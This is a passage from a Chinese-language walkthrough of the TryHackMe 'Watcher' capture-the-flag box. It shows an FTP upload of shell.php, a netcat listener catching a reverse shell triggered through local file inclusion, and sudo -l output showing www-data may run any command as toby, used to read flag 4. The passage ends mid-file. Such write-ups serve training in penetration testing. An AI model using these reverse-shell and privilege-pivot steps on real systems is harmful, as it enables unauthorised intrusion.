 200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5491 bytes sent in 0.00 secs (45.5359 MB/s)
ftp> ls ./files/
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001         5491 Oct 22 09:16 shell.php
-rw-r--r--    1 1001     1001           28 Oct 22 08:36 test.php
226 Directory send OK.
ftp> 
```

本地另起一个端口开启监听

LFI访问上传文件，触发反弹shell
```
┌──(root💀kali)-[~/tryhackme]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.208.80] 32980
Linux watcher 4.15.0-128-generic #131-Ubuntu SMP Wed Dec 9 06:57:35 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:18:31 up  2:24,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data

```

全局查找flag3，在```/var/www/html/more_secrets_a9f10a/flag_3.txt```找到

flag4在```toby```目录下，没有直接的读权限

运行sudo -l，本账号可以用toby的身份使用任何命令

```
$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```

使用```sudo -u toby cat flag_4.txt```拿到flag4


```/home/toby/note.txt```提示文字：
```
$ cat note.txt
Hi Toby,
